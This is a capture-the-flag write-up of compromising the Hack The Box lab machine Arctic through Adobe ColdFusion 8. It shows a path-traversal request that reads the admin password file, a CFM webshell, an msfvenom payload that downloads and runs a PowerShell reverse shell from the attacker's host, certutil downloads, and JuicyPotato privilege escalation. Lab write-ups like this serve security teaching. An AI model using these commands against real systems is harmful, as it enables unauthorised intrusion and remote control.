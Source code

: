 # Arctic (`10.10.10.11`)

## Summary

I find `Adobe Coldfusion 8` running, crack the admin password, upload a CFM webshell, get a PowerShell reverse shell and then use JuicyPotato to get root.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -p- --min-rate 10000 -Pn arctic.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 02:21 CDT
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.059s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.95 seconds

$ sudo nmap -A -v -p 135,8500,49154 -Pn -oA allports silo.htb
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 02:21 CDT
Nmap scan report for silo.htb (10.10.10.82)
Host is up.

PORT      STATE    SERVICE VERSION
135/tcp   filtered msrpc
8500/tcp  filtered fmtp
49154/tcp filtered unknown
Too many fingerprints match this host to give specific OS details

TRACEROUTE (using proto 1/icmp)
HOP RTT    ADDRESS
1   ... 30

NSE: Script Post-scanning.
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.12 seconds
           Raw packets sent: 144 (9.456KB) | Rcvd: 0 (0B)
```

### Port 8500

![](img/2020-10-12-04-28-46.png)

Looks like an `Adobe Coldfusion 8` install.

![](img/2020-10-12-04-57-15.png)

![](img/2020-10-12-05-00-09.png)

I use `CVE-2010-2861` to extract the password, using an exploit found here: https://www.exploit-db.com/exploits/14641

```bash
# Working GET request courtesy of carnal0wnage:
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

$ curl http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![](img/2020-10-12-05-14-23.png)

![](img/2020-10-12-05-15-41.png)

I feed the hashed password to `john` to crack it.

![](img/2020-10-12-05-27-01.png)

![](img/2020-10-12-05-26-47.png)

`admin:happyday` should let me in.

![](img/2020-10-12-05-31-22.png)

It does.

## Reverse Shell

![](img/2020-10-12-05-32-19.png)

![](img/2020-10-12-05-36-24.png)

Click `Schedule New Task`.

I find the `wwwroot` directory in the java classpath of the server settings.

![](img/2020-11-01-22-44-38.png)

![](img/2020-11-01-22-43-09.png)

I copy a CFM reverse shell to the current directory and start a web server on port 80 with `$ sudo python3 -m http.server 80`.

![](img/2020-11-01-22-45-51.png)

![](img/2020-11-01-22-46-01.png)

I test command execution.

![](img/2020-11-01-22-49-39.png)

![](img/2020-11-01-22-49-47.png)

Let's get a full shell. I use a `nishang` powershell reverse shell.

```bash
$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 443" >> shell.ps1
```

I deliver this payload using an `msfvenom` payload:

```bash
$ msfvenom -a x64 --platform Windows -p windows/x64/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.27/shell.ps1')" -f exe -o shell.exe
```

I use the webshell to download this payload from my webserver. 

`/c certutil.exe -urlcache -f http://10.10.14.27/shell.exe C:/ColdFusion8/runtime/../wwwroot/shell.exe`

![](img/2020-11-01-22-53-41.png)

![](img/2020-11-01-23-20-32.png)

I start a `nc` listener.

![](img/2020-11-01-23-21-21.png)

Run the exploit.

![](img/2020-11-01-23-21-32.png)

And get a shell as `tolis` and can grab the flag.

![](img/2020-11-02-18-16-09.png)

![](img/2020-11-01-23-22-38.png)

## Privilege Escalation

I check my user privileges and see I have `SeImpersonatePrivilege`, which means it's Juicy Potato time.

![](img/2020-11-02-17-58-02.png)

I move the executable over with: `PS> certutil.exe -urlcache -f http://10.10.14.27/JuicyPotato.exe JuicyPotato.exe`, and run it with the following command: `./JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:/ColdFusion8/runtime/../wwwroot/shell.exe" -t *`, after starting a `nc` listener.

![](img/2020-11-02-18-44-10.png)

![](img/2020-11-02-18-44-50.png)